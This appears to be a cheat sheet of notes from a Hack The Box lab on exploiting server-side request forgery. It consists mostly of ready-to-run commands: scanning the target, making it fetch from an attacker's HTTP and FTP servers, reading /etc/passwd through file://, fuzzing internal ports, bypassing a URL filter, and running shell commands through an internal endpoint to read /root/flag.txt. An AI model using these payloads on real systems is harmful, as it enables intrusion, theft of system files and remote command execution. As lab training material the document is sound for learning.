 # Cheat Sheet: Server-Side Request Forgery (SSRF) Exploitation

## Introduction
- SSRF allows attackers to exploit servers to request internal/external resources.
- A successful SSRF attack can reveal sensitive information and lead to Remote Code Execution (RCE).

## Perform SSRF Enumeration
1. **Nmap Scan:**
   ```bash
   nmap -sT -T5 --min-rate=10000 -p- $TARGET
   ```

2. **Curl Commands:**
   - Initial request:
     ```bash
     curl -i -s http://$TARGET
     ```
   - Follow redirects:
     ```bash
     curl -s -i -L http://$TARGET
     ```

## Testing SSRF
1. **Netcat Listener:**
   ```bash
   nc -lnvp 8080
   ```

2. **Curl Test:**
   ```bash
   curl -i -s "http://$TARGET/load?q=http://$ATTACKER:8080"
   ```

## Exploiting with Different Schemas
1. **HTTP Schema:**
   - Create `index.html` on attacker machine.
   - Start HTTP server:
     ```bash
     python3 -m http.server $PORT
     ```
   - Curl Command:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$ATTACKER:8000/index.html"
     ```

2. **FTP Schema:**
   - Set up FTP server on attacker:
     ```bash
     sudo pip3 install twisted
     sudo python3 -m twisted ftp -p 21 -r ~
     ```
   - Curl Command:
     ```bash
     curl -i -s "http://$TARGET/load?q=ftp://$ATTACKER/index.html"
     ```

3. **File Schema:**
   - Retrieve `/etc/passwd`:
     ```bash
     curl -i -s "http://$TARGET/load?q=file:///etc/passwd"
     ```

## Further Exploitation
1. **Port Fuzzing:**
   - Create port wordlist:
     ```bash
     for port in {1..65535}; do echo $port >> ports.txt; done
     ```
   - Issue request on a random port:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://127.0.0.1:1"
     ```
   - Fuzz ports using ffuf:
     ```bash
     ffuf -w ./ports.txt:PORT -u "http://$TARGET/load?q=http://127.0.0.1:PORT" -fs 30
     ```

2. **Identify Open Port:**
   - Interact with services:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://127.0.0.1:5000"
     ```

## Exploiting Internal.app.local
1. **Curl Interaction:**
   - Interact with internal:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=index.html"
     ```

2. **Bypass Filter Protection:**
   - Bypass filter:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:1"
     ```

3. **Port Fuzzing for Internal:**
   - Fuzz ports with different Content-Length:
     ```bash
     ffuf -w ports.list:PORT -u "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:PORT" -fs 100
     ```

4. **Retrieve Interesting Files:**
   - Explore on port 5000:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:5000/"
     ```

5. **Command Execution:**
   - Execute commands:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:5000/runme?x=id"
     ```

6. **URL-encode Payloads:**
   - Using Cyberchef or JQ for URL-encoding.

7. **Retrieve Flag:**
   - Retrieve flag:
     ```bash
     curl -i -s "http://$TARGET/load?q=http://$INTERNAL/load?q=http::////127.0.0.1:5000/runme?x=cat%2520/root/flag.txt"
     ```
   - Flag: `HTB{55rf_2_rc3}`
